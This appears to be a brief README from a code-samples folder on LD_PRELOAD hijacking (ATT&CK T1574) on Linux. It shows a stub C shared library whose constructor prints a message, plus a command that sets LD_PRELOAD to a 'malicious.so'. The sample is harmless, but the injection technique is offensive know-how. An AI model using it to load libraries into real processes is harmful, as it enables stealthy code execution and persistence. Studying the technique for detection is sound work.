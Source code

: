# Code Samples: T1574 LD_PRELOAD Hijacking

This folder contains code examples for abusing LD_PRELOAD to inject malicious libraries on Linux systems.

## Example: Malicious Shared Library (C)
```c
// Minimal shared library for LD_PRELOAD
#include <stdio.h>
__attribute__((constructor)) void preload() {
    printf("Malicious LD_PRELOAD library loaded!\n");
}
```

## Example: Set LD_PRELOAD
```bash
export LD_PRELOAD=/path/to/malicious.so
ls
```
